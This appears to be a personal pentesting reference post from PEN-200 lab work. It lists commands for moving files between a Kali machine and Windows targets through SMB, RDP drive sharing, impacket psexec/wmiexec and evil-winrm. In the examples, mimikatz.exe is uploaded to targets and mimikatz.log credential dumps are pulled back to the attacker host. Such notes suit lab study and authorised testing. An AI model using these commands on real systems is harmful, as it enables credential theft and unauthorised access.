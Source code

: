 ```yaml
---
layout: post
title: Windows to Linux File Transfers
---
```


Transferring files from windows to linux can be annoying. Anyway you do it requires remembering some command line optinos for whatever tool you're using, which is why this post is being made as a reference for myself.

Here are the methods:

## SMB: 
Start server on linux:
```
$ impacket-smbserver test . -smb2support  -username kourosh -password kourosh
```

then in powershell:
```
$ net use m: \\Kali_IP\test /user:kourosh kourosh
$ copy mimikatz.log m:\
```

## RDP mounting shared folder
### xfreerdp
linux:
```bash
$ xfreerdp /cert-ignore /compression /auto-reconnect /u:
offsec /p:lab /v:192.168.212.250 /w:1600 /h:800 /drive:test,/home/kali/Documents/pen-
200
```

windows:
```powershell
copy mimikatz.log \\tsclient\test\mimikatz.log
```

### rdesktop

on linux: 
```bash
rdesktop -z -P -x m -u offsec -p lab 192.168.212.250 -r disk:test=/home/kali/Documents/pen-200
```

on windows:
```powershell
copy mimikatz.log \\tsclient\test\mimikatz.log
```

## Impacket tools
> `psexec` and `wmiexec` are shipped with built in feature for file transfer.

> **Note**: By default whether you upload (lput) or download (lget) a file, it'll be writte in `C:\Windows` path.

Uploading mimikatz.exe to the target machine:

```
C:\Windows\system32> lput mimikatz.exe
[*] Uploading mimikatz.exe to ADMIN$\/
C:\Windows\system32> cd C:\windows
C:\Windows> dir /b mimikatz.exe
mimikatz.exe
```

Downloading mimikatz.log:

```bash
C:\Windows> lget mimikatz.log
[*] Downloading ADMIN$\mimikatz.log
```

## Evil-winrm

Uploading files:
```bash
upload mimikatz.exe C:\windows\tasks\mimikatz.exe
```

Downloading files:
```bash
download mimikatz.log /home/kali/Documents/pen-200
```
